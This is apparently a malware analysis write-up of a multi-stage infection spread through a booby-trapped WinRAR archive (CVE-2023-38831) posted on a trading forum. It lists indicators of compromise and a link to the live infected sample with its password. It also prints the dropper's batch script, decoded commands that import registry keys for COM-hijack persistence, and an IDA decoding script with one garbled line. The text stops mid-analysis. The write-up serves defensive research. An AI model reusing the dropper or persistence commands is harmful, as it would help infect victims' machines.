# Summary

Original infected RAR file: https://mega.nz/file/AlZhFQKJ#kPHC0d7ysiVYBwBoM62l6UdbY9GMxD02jf7H11Keq3w (Password: _**infected**_)

### Indicators of compromise

C2 IP: [`84.32.189.74`](https://www.virustotal.com/gui/ip-address/84.32.189.74/), TCP port: `1212`

C2 domain: [`87iavv.com`](https://www.virustotal.com/gui/domain/87iavv.com)

Registry keys added:

```
Windows Registry Editor Version 5.00
[HKEY_CURRENT_USER\Software\Classes\CLSID\{EA6FC2FF-7AE6-4534-9495-F688FEC7858C}]
@="Cabinet.ModuleClassK"
[HKEY_CURRENT_USER\Software\Classes\CLSID\{EA6FC2FF-7AE6-4534-9495-F688FEC7858C}\Implemented Categories]
[HKEY_CURRENT_USER\Software\Classes\CLSID\{EA6FC2FF-7AE6-4534-9495-F688FEC7858C}\Implemented Categories\{40FC6ED5-2438-11CF-A3DB-080036F12502}]
[HKEY_CURRENT_USER\Software\Classes\CLSID\{EA6FC2FF-7AE6-4534-9495-F688FEC7858C}\InprocServer32]
@="Cabinet.ocx"
"ThreadingModel"="Apartment"
[HKEY_CURRENT_USER\Software\Classes\CLSID\{EA6FC2FF-7AE6-4534-9495-F688FEC7858C}\ProgID]
@="Cabinet.ModuleClassK"
[HKEY_CURRENT_USER\Software\Classes\CLSID\{EA6FC2FF-7AE6-4534-9495-F688FEC7858C}\Programmable]
[HKEY_CURRENT_USER\Software\Classes\CLSID\{EA6FC2FF-7AE6-4534-9495-F688FEC7858C}\TypeLib]
@="{8F1576C0-BB08-4F05-87A6-268C0D548794}
[HKEY_CURRENT_USER\Software\Classes\CLSID\{EA6FC2FF-7AE6-4534-9495-F688FEC7858C}\VERSION]
@="1.0"
```

### VirusTotal hashes

Stage 1 (`a6im8a.rar`): [5a387ee6d0dcbbf2cd97379c68d8e3398d01a920873ddd45ff21dbfccb19e2ee](https://www.virustotal.com/gui/file/5a387ee6d0dcbbf2cd97379c68d8e3398d01a920873ddd45ff21dbfccb19e2ee)

Stage 2 (`Images.ico`): [02f9219f9d1bf03b2231f9499780d21b349285601ab8c31be2f5401c479217f2](https://www.virustotal.com/gui/file/02f9219f9d1bf03b2231f9499780d21b349285601ab8c31be2f5401c479217f2)

Stage 3 (`cc.exe`, `fk.png`, `sb.ocx`, `sn.ocx`): 

[bc2378e4c3102d5e194963b5eaa941d99934909058b668b73c5f52404fbeafd4](https://www.virustotal.com/gui/file/bc2378e4c3102d5e194963b5eaa941d99934909058b668b73c5f52404fbeafd4)

[9e83f04480678c4f202519cddea90ba9d044b70408ae2255c89e57ce116bd85c](https://www.virustotal.com/gui/file/9e83f04480678c4f202519cddea90ba9d044b70408ae2255c89e57ce116bd85c)

[e3484f28d224591e5e85c5a749acfab4f9f60103f34723260d78b4728c7a718d](https://www.virustotal.com/gui/file/e3484f28d224591e5e85c5a749acfab4f9f60103f34723260d78b4728c7a718d)

[8dec713b9287432b694e5d1678e30118555dcd834d8c2e28b2e89e98205bba5b](https://www.virustotal.com/gui/file/8dec713b9287432b694e5d1678e30118555dcd834d8c2e28b2e89e98205bba5b)


Stage 4 (`Cabinet.ocx`): [800fbed7ecd21452e4230ffb7fb6b8609f6e9c838c087b35cce41b250370a18b](https://www.virustotal.com/gui/file/800fbed7ecd21452e4230ffb7fb6b8609f6e9c838c087b35cce41b250370a18b)

# Stage 1 - The malicious WinRAR file

[CVE-2023-38831](https://nvd.nist.gov/vuln/detail/CVE-2023-38831) describes a WinRAR exploit that allows an attacker to create a malicious archive with a file that contains a space at the end. If there is a directory that has the same name as the file, arbitrary code in the directory will be executed on the victim's machine. Google Project Zero has done an excellent writeup on this exploit, read more about it here: https://googleprojectzero.github.io/0days-in-the-wild//0day-RCAs/2023/CVE-2023-38831.html.

A proof of concept exploit exists here: https://github.com/b1tg/CVE-2023-38831-winrar-exploit

This sample was found in a download link being shared on a trading forum as a bitcoin trading strategy: `https://www.asktraders.com/trading-community/topic/4982-my-best-personal-strategy-to-trade-with-bitcoin/` ([WayBack Machine version](https://web.archive.org/web/20240000000000*/https://www.asktraders.com/trading-community/topic/4982-my-best-personal-strategy-to-trade-with-bitcoin/))

When opening the archive in WinRAR we see the file setup described in the CVE:


Looking at the directory that has the same name as the root file, we see several different ico files, and mixed right into the middle of them, we see a significantly larger `Images.ico` and the `Screenshot_05_04-2023.jpg .cmd` file which the exploit will execute.



# Stage 2 - Powershell script and `Images.ico`

In the infected WinRAR file that we have, there's a file called `Screenshot_05-04-2023.jpg` and a folder called `Screenshot_05-04-2023.jpg` with a space at the end. The space at the end being what is described above that forces the opening of the jpg file to actually go into the directory by the same name with the space, and open a file called `Screenshot_05-04-2023.jpg /Screenshot_05-04-2023.jpg .cmd` which contains the following:

```powershell
@echo off
if not DEFINED IS_MINIMIZED set IS_MINIMIZED=1 && start "" /min "%~dpnx0" %* && exit
cd %TEMP% 
for /F "delims=" %%K in ('dir /b /s "Screenshot_05-04-2023.jpg"') do for /F "delims=" %%G in ('dir /b /s "Images.ico"') do WMIC process call create "%%~G"&&"%%~K"&&exit
exit
```

Formatting to make it easier to read:

```powershell
@echo off
if not DEFINED IS_MINIMIZED set IS_MINIMIZED=1 && start "" /min "%~dpnx0" %* && exit
cd %TEMP% 
for /F "delims=" %%K in ('dir /b /s "Screenshot_05-04-2023.jpg"') do
	for /F "delims=" %%G in ('dir /b /s "Images.ico"') do
		WMIC process call create "%%~G"&&"%%~K" && exit
exit
```

It starts a command prompt in minimized mode, `cd`'s into the `%TEMP%` directory, then loops over the files named `Screenshot_05-04-2023.jpg` and `Images.ico`. From there [`WMIC`](https://learn.microsoft.com/en-us/windows/win32/wmisdk/wmic) is called which is responsible for creating new processes, executing first `Images.ico`.

Loading `Images.ico` into DIE (Detect-It-Easy) reveals some valuable information.


We see that it is recognized as a PE file, with several sections, including an embedded [Microsoft Cabinet Archive](https://learn.microsoft.com/en-us/windows/win32/msi/cabinet-files) which contains several files.

We can confirm this by looking at the entropy graph which shows the resources section being considered completely packed, meaning it's either compressed or encrypted.


We also see some interesting values in the resources table:


 
The resource being highlighted shows a value of *CABINET*, and then we see in the hex below the magic number `4D 53 43 46` which in text format is *MSCF*, [which corresponds to the Microsoft Cabinet file format](https://en.wikipedia.org/wiki/List_of_file_signatures). Just in the top part of the cabinet file, we see the names of the archived files:

* `sn.ocx`
* `add.txt`
* `cc.exe`
* `sb.ocx`

Another interesting resource has the value *RUNPROGRAM* and a hex value that corresponds to *"cc.exe"*. The metadata version info shows that it's trying to pass itself off as Dropbox in an attempt to disguise itself.

```
VS_VERSION_INFO.StringFileInfo.000004B0.CompanyName:Dropbox, Inc.
VS_VERSION_INFO.StringFileInfo.000004B0.FileDescription:Dropbox 172.4.7555
VS_VERSION_INFO.StringFileInfo.000004B0.FileVersion:172.4.7555
VS_VERSION_INFO.StringFileInfo.000004B0.LegalCopyright:© Dropbox, Inc.
VS_VERSION_INFO.StringFileInfo.000004B0.LegalTrademarks:Dropbox is a trademark of Dropbox, Inc.
VS_VERSION_INFO.StringFileInfo.000004B0.ProductName:Dropbox
VS_VERSION_INFO.VarFileInfo.Translation:04b00000
```

We can dump all of these resources to a folder and look at each one. Some other interesting files that are found are a PNG icon image of space:


And an AVI file that shows an animated image of two folders with files being transferred between them.

<video style="margin:auto; width: 500px" src="./assets/images-file-transfer-avi.mp4" controls></video>

The last thing we'll check in DIE is if there are any debug symbols. This section shows that the PDB file that goes with this binary is called `wextract.pdb`.

Now we can start to build a hypothesis as to what this first stage does. Putting the pieces together, it appears that it is some sort of extraction binary that has a misleading file extension and icon to disguise itself. And upon loading this file via the CMD scripts shown above, the extraction AVI will be played to make the victim think their files are being extracted from WinRAR like normal, when in actuality, it loads a PE file that extracts a Microsoft Cabinet Archive that contains the following stages, based on the resource table, we can infer that the program that will be run upon Cabinet extraction is called `cc.exe`.

Loading `Images.ico` into IDA and finding the `start` function leads us to find what looks like the structure of the [`WinMain` entry point](https://learn.microsoft.com/en-us/windows/win32/learnwin32/winmain--the-application-entry-point) at `sub_100637A`.


After some initializations and OS version checks that occur in `sub_10053FA`, the following `sub_1006205` function is executed - this is the primary function of the program and is where all important subsequent functions will be executed from.


`sub_1005F21` creates a dir in the TEMP directory at `C:\Users\User\AppData\Local\Temp\IXP000.TMP`, adds an empty file to it called `TEMP4351$.TMP`, deletes it, then it calls [`GetFileAttributesA`](https://learn.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-getfileattributesa) on the `IXP000.TMP`, making sure that it doesn't return anything other than `0x10` which [resolves to FILE_ATTRIBUTE_DIRECTORY](https://learn.microsoft.com/en-us/windows/win32/fileio/file-attribute-constants). This is most likely a way to ensure the current user has permissions to read/write to the TEMP directory.

Beginning at `loc_1006260` we see some dynamic import resolution via the `sub_10066CF` function which adds a file path to memory. In this example, we see `advapi32.dll` is added to the `C:\Windows\System32\` path, dynamically loaded into memory, and then resolves the [`DecryptFileA`](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-decryptfilea) method and calls it.



If we step through the Windows syscalls, eventually we get to `feclient_EfsClientDecryptFile` which checks the `IXP000.TMP` directory attributes to ensure they're not `0x4000` [(`FILE_ATTRIBUTE_ENCRYPTED`)](https://learn.microsoft.com/en-us/windows/win32/fileio/file-attribute-constants). Since in this example the folder is not encrypted, it returns early. If there was an EFS flag on the directory, the code would decrypt it.

`sub_1005A36` begins the extraction algorithm:



Once the memory has been prepped, `StartAddress` is called which loads a resource called `CABINET` - the resource that we found earlier through DIE. [`FDICreate`](https://learn.microsoft.com/en-us/windows/win32/api/fdi/nf-fdi-fdicreate) and [`FDICopy`](https://learn.microsoft.com/en-us/windows/win32/api/fdi/nf-fdi-fdicopy) are called, copying the contents of the cabinet file to the `IXP000.TMP` directory. A file copy dialog is shown with the AVI video we saw earlier in the DIE resource:



And now we have the files for the next stages:



`sub_1005ABC` is called which runs through various possible resource flags, eventually landing on a resource called `RUNPROGRAM`, which according to DIE, resolves to `cc.exe`, this file is loaded into memory, a registry key is added to `HKLM\SOFTWARE\WOW6432Node\Microsoft\Windows\CurrentVersion\RunOnce\wextract_cleanup0` with a value of `rundll32.exe C:\Windows\system32\advpack.dll,DelNodeRunDLL32 "C:\Users\User\AppData\Local\Temp\IXP000.TMP\"` then `sub_1004CAE` creates a new process from `cc.exe`.



# Stage 3 - `cc.exe`, `fk.png`, `sb.ocx`, and `sn.ocx`

Loading each of these files into DIE, we find some metadata that will be useful in the future.

Here are the ProductName's for each of the files:

* `cc.exe` - Proyecto1
* `sn.ocx` - Proyecto2
* `sb.ocx` - Proyecto3

And for `fk.png`, we see that starting at offset `0x001d4de1` there is an embedded PE file in the first 24MB of the PNG.



`cc.exe` is only 29KB, so we won't really expect to see much after loading it into IDA. We see only one function and few syscalls as well as some strings that match the ProductName metadata from `sn.ocx` and `sb.ocx`



Looking at the strings found in `sn.ocx` and `sb.ocx`, we find several hex strings that get referenced right before what looks like a decoding method is called. We can use some IDA Python scripting to show what each of these decodes to. In `sn.ocx` the decode function is at `0x11002604` and in `sb.ocx` it's at `0x11002174`. We can rename both of these methods to `mw_hex_to_str` and run the following script in IDA:

```python
import idautils
import idc
import idaapi

def get_hex_string_from_addr(ea):
    """
    Given an address, return the hex string it points to up to a null-terminator (considering UTF-16LE encoding).
    """
    out = []
    while True:
        # Read two bytes for UTF-16LE encoding
        byte_at_ea = idc.get_wide_byte(ea) | (idc.get_wide_byte(ea+1) << 8)
        
        if byte_at_ea == 0:  # null-terminator for UTF-16LE string
            break
            
        out.append("{:02X}".format(byte_at_ea))
        ea += 2  # move two bytes forward
        
    return ''.join(out)

def hex_string_to_ascii(hex_string):
    """
    Given a hex string, return its ASCII representation.
    """
    return bytes.fromhex(hex_string).decode('ascii')


def get_push_value_before_call(ea):
    """
    Given the effective address (ea) of a call instruction,
    this function will scan backwards looking for a "push"
    instruction and return its operand (the value being pushed).
    """
    for i in range(5):  # Look up to 5 instructions backwards
        ea = idc.prev_head(ea)
        mnem = idc.print_insn_mnem(ea)
        if mnem == "push":
            push_addr = idc.get_operand_value(ea, 0)
            hex_string = get_hex_string_from_addr(push_addr)
            return (bytes.fromhex(hex_string_to_ascii(hex_string)).decode('utf-8'), hex_string_to_ascii(hex_string))
    return None

# Get the address of the hex_to_str function
func_ea = idc.get_name_ea_simple("mw_hex_to_str")

if func_ea != idaapi.BADADDR:
    # Get all references to hex_to_str
    for ref in idautils.CodeRefsTo(func_ea, 0):
        (value, hex_string) = get_push_value_before_call(ref)
        if value is not None:
'{}' = '{}'".format(ref, hex_string, value))
            idc.set_cmt(ref - 0x05, "'{}' = '{}'".format( hex_string, value), 1)
            
else:
    print("Function hex_to_str not found!")
```

This gives us some comments that help us read what's going easier.



Looking at all of the decoded strings across the ocx files, we get the following:

### `sn.ocx`
```
'41505044415441' = 'APPDATA'
'5C44656661756C744469726563746F7279' = '\DefaultDirectory'
'6164642E747874' = 'add.txt'
'666B2E706E67' = 'fk.png'
'6B6972696D616E617332' = 'kirimanas2'
'41505044415441' = 'APPDATA'
'5C44656661756C744469726563746F72795C436162696E65742E6F6378' = '\DefaultDirectory\Cabinet.ocx'
'53797374656D526F6F74' = 'SystemRoot'
'5C537973574F573634' = '\SysWOW64'
'53797374656D526F6F74' = 'SystemRoot'
'5C537973574F5736345C' = '\SysWOW64\'
'41505044415441' = 'APPDATA'
'5C44656661756C744469726563746F72795C436162696E65742E6F6378' = '\DefaultDirectory\Cabinet.ocx'
'5C' = '\'
'5C5C' = '\\'
'436162696E65742E6F6378' = 'Cabinet.ocx'
'41505044415441' = 'APPDATA'
'5C44656661756C744469726563746F72795C6164642E747874' = '\DefaultDirectory\add.txt'
```

### `sb.ocx`
```
'53797374656D526F6F74' = 'SystemRoot'
'5C537973574F573634' = '\SysWOW64'
'53797374656D526F6F74' = 'SystemRoot'
'5C537973574F5736345C' = '\SysWOW64\'
'636D64202F6320636420' = 'cmd /c cd '
'41505044415441' = 'APPDATA'
'5C44656661756C744469726563746F72792626636D64202F632074696D656F757420312626636D64202F63207265672E65786520696D706F7274206164642E747874' = '\DefaultDirectory&&cmd /c timeout 1&&cmd /c reg.exe import add.txt'
'636D64202F6320636420' = 'cmd /c cd '
'41505044415441' = 'APPDATA'
'5C44656661756C744469726563746F72792626636D64202F632074696D656F757420312626636D64202F6320' = '\DefaultDirectory&&cmd /c timeout 1&&cmd /c '
'72756E646C6C33322E657865202F737461207B45413646433246462D374145362D343533342D393439352D4636383846454337383538437D20' = 'rundll32.exe /sta {EA6FC2FF-7AE6-4534-9495-F688FEC7858C} '
'74656D70' = 'temp'
```

Circling back to `cc.exe`, we can use quick dynamic analysis with **x32dbg** to see how these ocx files are used in the second stage. Looking at the strings for the ocx file, we can start to see what the behavior will give us.

Putting a breakpoint on DLL load as well as some functions that we think might be called such as [`CreateFileA`](https://learn.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-createfilea) and [`ReadFile`](https://learn.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-readfile) as well as any DLL Load or System DLL Load's. Once `cc.exe` is running in the debugger, we see that first `sn.ocx` is loaded into memory, once it is, I put breakpoints on every one of the hex strings in hopes that we can quickly step through the binary and catch each one of the steps where the strings are used.



`ReadFile` is called on the TEMP directory's `add.txt` and `fk.png` files which are read into memory, then the first part of `fk.png` is parsed out of the image file and `CreateFileA` is called which writes `Cabinet.ocx` and `add.txt` to `%APPDATA%`.

Once these files are written, `sb.ocx` is loaded into memory and we can do the same thing we did above where we search for all string references and put breakpoints on all of the hex strings to see what order they're called in.



Stepping through the `sb.ocx` code shows us that several of the hex strings are loaded into memory, decoded, and then concatenated together to first make `cmd /c cd C:\Users\User\AppData\Roaming\DefaultDirectory&&cmd /c timeout 1&&cmd /c reg.exe import add.txt` which imports the registry values from `add.txt`, adding a malicious COM object at `HKEY_CLASSES_ROOT\Wow6432Node\CLSID\{EA6FC2FF-7AE6-4534-9495-F688FEC7858C}`:

